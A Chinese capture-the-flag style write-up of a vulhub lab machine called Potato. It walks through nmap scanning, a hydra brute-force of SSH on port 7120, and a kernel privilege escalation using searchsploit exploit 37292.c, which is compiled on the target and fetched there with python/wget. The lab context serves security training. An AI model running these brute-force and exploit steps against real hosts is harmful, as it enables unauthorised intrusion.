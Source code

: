 # 云尘-Potato(Suncsr)1 hydra破解ssh密码

vulhub的题目 继续渗透吧

我们依旧打开nmap开扫

```cobol
首先扫描目标网段
 
nmap -sP 127.25.0.1/24
```

```css
nmap -sS -sV -p- -v 172.25.0.13
 
然后扫描端口
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b25cd91f8be10aaaa9066051330ff3d1.png" alt="" style="max-height:72px; box-sizing:content-box;" />


获取到两个 80和 7120 80机会很多 22就一次 爆破弱口令报完没有就去80测试

```cobol
hydra -l potato -P 字典 -vV ssh://172.25.0.13:7120
```

擦 还真出了



<img src="https://i-blog.csdnimg.cn/blog_migrate/550b14a1b13c9fce28bba3db0f271b81.png" alt="" style="max-height:173px; box-sizing:content-box;" />


直接ssh链接getshell

然后我们首先看看/etc/passwd

发现没啥 看看内核 有没有poc

```bash
uname -a
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ca7ba36a68d830664297f0782f57092f.png" alt="" style="max-height:103px; box-sizing:content-box;" />


然后去搜索

kali中的exp搜搜

```cobol
searchsploit ubuntu 3.13.0
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d59a22fbe5a1bd43c05d4a78b70b5ea0.png" alt="" style="max-height:271px; box-sizing:content-box;" />


有的 这里我犯了错误 我直接通过

```cobol
gcc 37292.c -o /home/37292
```

然后通过python 和 wget 下载执行



<img src="https://i-blog.csdnimg.cn/blog_migrate/9ee22483c7949d33f03a55d643775370.png" alt="" style="max-height:453px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/07ef1078719f5fb5df3b88b71d05b53d.png" alt="" style="max-height:133px; box-sizing:content-box;" />


发现不行

这里笨了 直接把c源代码送进去 gcc即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/31c114b22d8a23d73c03fc2d26e6693b.png" alt="" style="max-height:588px; box-sizing:content-box;" />


提权成功 直接cat flag即可